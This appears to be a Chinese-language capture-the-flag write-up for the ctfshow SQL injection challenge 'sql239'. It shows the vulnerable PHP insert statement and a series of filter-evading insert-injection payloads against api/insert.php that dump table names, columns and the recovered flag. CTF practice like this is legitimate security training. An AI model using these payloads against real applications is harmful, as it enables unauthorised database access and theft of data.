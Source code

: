 # ctfshow-sql239



##### 参考链接

其他大佬链接

feng  https://blog.csdn.net/rfrder/article/details/113759746

Je3    https://blog.csdn.net/jvkyvly/article/details/115458909

Y4	 https://blog.csdn.net/solitudi/article/details/110144623





 查询语句 

```
  //插入数据
  $sql = "insert into ctfshow_user(username,pass) value('{$username}','{$password}');";
```



 返回逻辑 

```
  //过滤空格 or 

```





```mysql
*好像也过滤了

insert注入，直接闭合单引号，然后自己构造查询语句，把查询的结果insert到表里

注入点api/insert.php


username=1',database())#&password=123456
倒序查找内容
ctfshow_web



username=1',(select(group_concat(table_name))from(mysql.innodb_table_stats)where(database_name=database())))#&password=1

	
banlist,ctfshow_user,flagbb


列名实在没有办法注入
# username=3',(select group_concat(column_name) from information_schema.columns where table_name='flag'));-- A&password=1


#username=3',(select(group_concat(column_name))from(information_schema.columns)where(table_name='flagb')))#&password=1
	
	
# id,flag,info
	


通过上一题猜的flag列名
username=1',(select(group_concat(flag))from(flagbb)))#&password=1


	
ctfshow{b2c44011-8fc9-41fb-a71a-5b854025fb5f}



```























